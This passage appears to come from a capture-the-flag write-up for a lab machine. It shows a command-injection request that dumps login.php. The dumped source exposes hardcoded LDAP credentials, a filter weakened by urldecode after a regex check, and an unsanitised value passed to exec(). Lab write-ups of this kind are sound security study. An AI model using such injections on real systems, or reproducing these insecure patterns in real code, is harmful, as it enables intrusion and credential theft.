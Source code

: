 #### I started looking for any hardcoded credentials in the `php` files, in `login.php` I found credentials for `ldapuser` :
```
inputCmd=cat login.php&inputOTP=04181897

<?php
session_start();
$strErrorMsg="";

$username = 'ldapuser';
$password = 'e398e27d5c4ad45086fe431120932a01';

$basedn = 'dc=ctf,dc=htb';
$usersdn = 'cn=users';

// This code uses the START_TLS command

$ldaphost = "ldap://ctf.htb";
$ldapUsername  = "cn=$username";

$ds = ldap_connect($ldaphost);
$dn = "uid=ldapuser,ou=People,dc=ctf,dc=htb";

if (!empty($_POST))
{
    //var_dump($_POST);
    $username1 = $_POST['inputUsername'];
    $OPT1 = $_POST['inputOTP'];

    $regex='/[()*&|!=><~]/';

    if (!preg_match($regex, $username1)) {
        $username2 = urldecode($username1);

        if(!ldap_set_option($ds, LDAP_OPT_PROTOCOL_VERSION, 3)){
            print "Could not set LDAPv3\r\n";
        }
        else if (!ldap_start_tls($ds)) {
           print "Could not start secure TLS connection";
        }
        else {
            // now we need to bind to the ldap server
            $bth = ldap_bind($ds, $dn, $password) or die("\r\nCould not connect to LDAP server\r\n");

            $filter = "(&(objectClass=inetOrgPerson)(uid=$username2))";
            // fix to be sure that the user has a token string in the db. Without it you can bypass the OTP check with no token in the input form!
            $filter = "(&(&(objectClass=inetOrgPerson)(uid=$username2))(pager=*))";
            //echo $filter.PHP_EOL;
            if ($search=@ldap_search($ds, $basedn, $filter)) {
                $info = ldap_get_entries($ds, $search);

                if($info["count"] > 0) {
                    $token_string = $info[0]['pager'][0];
                    //echo $token_string;
                    $token = exec("/usr/bin/stoken --token=$token_string --pin=0000");
                    if($token == $OPT1) {
                        $strErrorMsg = "Login ok";
                        $_SESSION['username'] = $username1;
                        header ('Location: /page.php');
                    }
```